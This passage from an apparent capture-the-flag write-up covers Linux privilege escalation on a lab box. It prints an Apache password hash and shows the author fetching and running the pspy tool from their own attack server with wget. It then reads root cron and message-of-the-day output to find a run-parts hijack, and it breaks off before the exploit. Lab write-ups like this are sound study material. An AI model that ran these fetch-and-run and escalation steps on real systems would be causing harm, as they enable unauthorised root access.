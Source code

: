 Finally, it also found a password hash:

```bash
[+] Searching specific hashes inside files - less false positives (limit 70)
/etc/apache2/passwords:$apr1$zXpnkbX6$LPzyE8Wa0d1yNQ4/F8aQa.
```

## Exploiting cron

I spent a bit of time figuring this out, but as always you can skip to the [working exploit](#hijacking-run-parts).

We'll run `pspy` to see what's happening on the box:

```bash
jkr@writeup:/tmp$ wget http://10.10.16.211:8000/pspy64
--2021-07-15 16:46:49--  http://10.10.16.211:8000/pspy64
Connecting to 10.10.16.211:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                             100%[=============================================================================================================>]   2.94M  1.40MB/s    in 2.1s    c

2021-07-15 16:46:52 (1.40 MB/s) - ‘pspy64’ saved [3078592/3078592]

jkr@writeup:/tmp$ chmod +x pspy64 
jkr@writeup:/tmp$ ./pspy64 
```

We see the cron jobs pop up, running `/root/bin/cleanup.pl`:

```
2021/07/15 16:48:01 CMD: UID=0    PID=12568  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/15 16:49:01 CMD: UID=0    PID=12569  | /usr/sbin/CRON 
2021/07/15 16:49:01 CMD: UID=0    PID=12570  | /usr/sbin/CRON 
2021/07/15 16:49:01 CMD: UID=0    PID=12571  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/15 16:50:01 CMD: UID=0    PID=12572  | /usr/sbin/CRON 
2021/07/15 16:50:01 CMD: UID=0    PID=12573  | /usr/sbin/CRON 
```

I couldn't read the file:

```bash
jkr@writeup:~$ cat /root/bin/cleanup.pl
cat: /root/bin/cleanup.pl: Permission denied
```

`/bin/sh` is absolute, so we can't just make a new file in the path and hijack the root call.

Eventually I logged via in from another terminal tab to checkout the script, and it triggered a Message of the Day:

```bash
2021/07/15 16:50:13 CMD: UID=102  PID=12576  | sshd: [net]       
2021/07/15 16:50:45 CMD: UID=0    PID=12577  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 16:50:45 CMD: UID=0    PID=12578  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 16:50:45 CMD: UID=0    PID=12579  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/15 16:50:45 CMD: UID=0    PID=12580  | uname -rnsom 
2021/07/15 16:50:45 CMD: UID=0    PID=12581  | sshd: jkr [priv]  
```
